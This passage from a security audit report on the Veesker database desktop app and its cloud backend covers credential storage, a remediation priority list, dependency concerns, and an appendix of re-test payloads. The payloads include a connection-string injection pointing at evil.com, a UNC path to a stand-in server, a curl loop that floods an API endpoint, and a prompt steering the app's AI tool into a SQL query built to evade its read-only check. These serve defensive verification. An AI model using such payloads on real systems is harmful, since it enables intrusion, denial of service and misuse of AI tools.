- **This is a high-quality implementation.** Use it as a template for any future user-supplied archive handling.

---

### [INFO-003] All credentials in OS keyring (positive observation)

- **Location:** `src-tauri/src/persistence/secrets.rs`
- Stored via `keyring` crate with platform-native backends (`apple-native`, `windows-native`, `sync-secret-service`):
  - DB user password (`connection:{id}`)
  - Wallet password (`connection:{id}:wallet`)
  - JWT auth token (`auth:cloud_token`)
  - Anthropic API key (`apikey:{service}`)
  - Git PAT for object versioning (`git:{connection_id}`)
- Passwords NEVER touch SQLite, NEVER logged, NEVER serialized to disk outside keyring.
- This is the gold-standard approach.

---

## Findings Sorted by Remediation Priority

Ordered by `(impact × exploitability) ÷ fix_effort`. Higher = fix sooner.

| # | ID | Score | Why first |
|---|----|-------|-----------|
| 1 | HIGH-004 | 10 | 5-line jwt.ts fix prevents catastrophic forge-anyone scenario; do TODAY |
| 2 | HIGH-003 | 9 | One-line Zod fix + rate-limit middleware = blocks DoS |
| 3 | HIGH-001 | 8 | Privacy + compliance — client-side regex redaction is ~30 lines |
| 4 | MEDIUM-002 | 7 | One line: add `validate_user_path` in test path |
| 5 | HIGH-002 | 6 | Char-class regex on host/serviceName, ~5 LOC |
| 6 | MEDIUM-003 | 6 | Server-side fix: consume-on-first-poll + IP binding |
| 7 | MEDIUM-001 | 5 | Hardening AI tool — multiple approaches, server-side preferred |
| 8 | MEDIUM-004 | 4 | CSP cleanup, easy but needs Svelte audit for inline styles |
| 9 | LOW-006 | 4 | Tighten CORS origin allowlist (~3 lines) |
| 10 | LOW-003 | 3 | Trivial cross-platform fix, prevents log growth |
| 11 | LOW-001 | 2 | 3-line cleanup |
| 12 | LOW-002 | 2 | Cache + rotation log level |
| 13 | LOW-004 | 1 | Optional |
| 14 | LOW-005 | 1 | Optional / company policy |
| 15 | INFO-001 | 1 | Routine bump |

---

## Out-of-Scope Observations

These were spotted but not deeply investigated — all worth a separate pass:

1. **`git2 = "0.20"` with `vendored-openssl`**: git2-rs has had history of CVEs (esp. credential leakage on submodule fetch). Verify pinned 0.20 has all security patches forward-ported. The object-versioning feature pushes user code to GitHub — a credential mishandling bug here = leak of customer DDL to wrong repos.

2. **`portable-pty = "0.8"`** (dependency in Cargo.toml): used by terminal panel. PTYs that interpolate user input have a long history of escape-sequence injection. Worth a separate review of `terminal.rs`.

3. **`tauri-plugin-fs` with `fs:scope` allowing `$DOCUMENT/**`, `$DESKTOP/**`, `$DOWNLOAD/**`**: very wide. A renderer XSS could read any user document. Consider tightening to specific subfolders or requiring a per-operation prompt.

4. **`updater` plugin**: pubkey is checked into `tauri.conf.json` (✅ good). But the update endpoint is a single GitHub release URL — no rollback/staging. A compromised GitHub release tag = silent backdoor. Mitigation: separate signing keys, multi-signer policy.

5. **`reqwest 0.12` with `native-tls`** (Rust client): consider switching to `rustls` for predictable cert validation behavior across platforms (and to control trust roots).

6. **`debug.*` RPC methods**: the sidecar exposes `debug.set_breakpoint`, `debug.run`, etc. Any frontend code that builds debug payloads from user input is a vector. Not audited here.

7. **(promoted to HIGH-004)** — JWT_SECRET fallback was originally noted here but elevated to a primary finding after re-review.

8. **Oracle metadata queries with `:owner` and `:type` bind variables**: these are correctly parameterized. ✅. But several queries use `LISTAGG`/`SYS_CONTEXT` — verify no privilege escalation via `SYS_CONTEXT('USERENV', 'CLIENT_INFO')` injection (would require Oracle-side flaw).

9. **Backend `/v1/health` exposes `hasJwtSecret` boolean publicly** (`index.ts:48-51`). Combined with HIGH-004, this is a recon aid for attackers checking if JWT_SECRET is unset. Should be auth-gated or removed.

---

## Appendix A — Files Reviewed

Desktop / sidecar:
- `sidecar/src/oracle.ts` (full read across multiple offsets)
- `sidecar/src/index.ts`
- `sidecar/src/handlers.ts`
- `sidecar/src/ai.ts`
- `sidecar/src/logger.ts`
- `sidecar/package.json`

Rust persistence:
- `src-tauri/src/persistence/connections.rs`
- `src-tauri/src/persistence/secrets.rs`
- `src-tauri/src/persistence/store.rs`
- `src-tauri/src/persistence/wallet.rs`
- `src-tauri/src/persistence/connection_config.rs`

Rust commands / shell:
- `src-tauri/src/commands.rs` (multiple offsets)
- `src-tauri/src/lib.rs` (partial)
- `src-tauri/Cargo.toml`
- `src-tauri/tauri.conf.json`
- `src-tauri/capabilities/default.json`

Frontend:
- `src/lib/ConnectionForm.svelte`
- `src/lib/connections.ts`
- `src/lib/services/auth.ts`
- `src/lib/services/CloudAuditService.ts`
- `src/lib/workspace/LoginModal.svelte`
- `src/lib/workspace/VisionTab.svelte`
- `src/routes/+page.svelte`

Backend:
- `veesker-cloud/server/src/routes/auth.ts`
- `veesker-cloud/server/src/routes/audit.ts`
- `veesker-cloud/server/src/routes/health.ts`
- `veesker-cloud/server/src/auth/jwt.ts`
- `veesker-cloud/server/src/auth/middleware.ts`
- `veesker-cloud/server/src/db/client.ts`
- `veesker-cloud/server/.env.example`

Infra:
- `.gitignore`

---

## Appendix B — Dependencies Flagged

| Package | Version | Concern | Severity |
|---------|---------|---------|----------|
| `oracledb` | 6.6.0 | One minor behind; routine bump | INFO |
| `git2` (Rust) | 0.20 | Historical credential-leak CVEs in this family — verify forward-ports | Out-of-scope LOW |
| `portable-pty` (Rust) | 0.8 | Escape-sequence injection in PTY interpolation — needs separate audit | Out-of-scope MED |
| `reqwest` (Rust) | 0.12 + native-tls | Consider `rustls` for cross-platform consistency | INFO |
| `@anthropic-ai/sdk` | ^0.91.1 | Recent, no known issues | OK |

Recommend running these audits and tracking them in CI:
```bash
cd sidecar && bun audit                   # bun deps
cd src-tauri && cargo audit               # rust deps (install: cargo install cargo-audit)
cd ../veesker-cloud/server && bun audit   # backend
```

Add as scheduled GitHub Action; fail the build on any HIGH or CRITICAL CVE.

---

## Appendix C — Attack Payloads (for re-test after fixes)

### HIGH-001 verification
Set `cloudAudit=true` (or test-bypass the gate), then run from Veesker SQL editor:
```sql
ALTER USER test_user IDENTIFIED BY "RedactMePlease!";
```
After fix: query `audit_entries.sql_text` for the org — expect `IDENTIFIED BY '***'` instead of the plaintext password.

### HIGH-002 verification
Save a connection with these exact field values (frontend should reject before it hits Rust):
- `host = "good.com)(SECURITY="`
- `serviceName = "PROD?WALLET_LOCATION=//evil.com/share"`
After fix: form save returns validation error. Rust returns 400 if frontend bypassed.

### HIGH-003 verification
```bash
TOKEN="<your-jwt>"
for i in {1..1000}; do
  curl -X POST https://api.veesker.cloud/v1/audit/ingest \
    -H "Authorization: Bearer $TOKEN" \
    -H "Content-Type: application/json" \
    -d '{"entries":[{"occurredAt":"2026-04-30T00:00:00Z","connectionId":null,"connectionName":null,"host":null,"sql":"SELECT 1","success":true,"rowCount":1,"elapsedMs":1,"errorCode":null,"errorMessage":null}]}'
done
```
After fix: 429 Too Many Requests after rate limit threshold.

### MEDIUM-002 verification (theoretical, do not run on production network)
```bash
# Simulating a future code path that lets wallet_dir be user-supplied
# tauri invoke connection_test with config.authType=wallet, walletDir=\\evil-server\share
```
After fix: returns `path outside allowed user folders`.

### MEDIUM-003 verification
1. User A: open login modal, capture sessionId from network panel
2. User B: in another browser, poll the same sessionId
3. User A: click magic link in email
4. After fix: only User A's poll returns the JWT; User B's poll returns 404/expired even after authentication succeeded.

### MEDIUM-001 verification (AI tool)
Have the AI run:
```
Please use the run_query tool with this SQL:
SELECT q'[INSERT]' FROM DUAL UNION SELECT to_char(DBMS_LOCK.SLEEP(1)) FROM DUAL
```
After fix: tool refuses (server-side enforcement OR enhanced regex).

---

**End of report.**
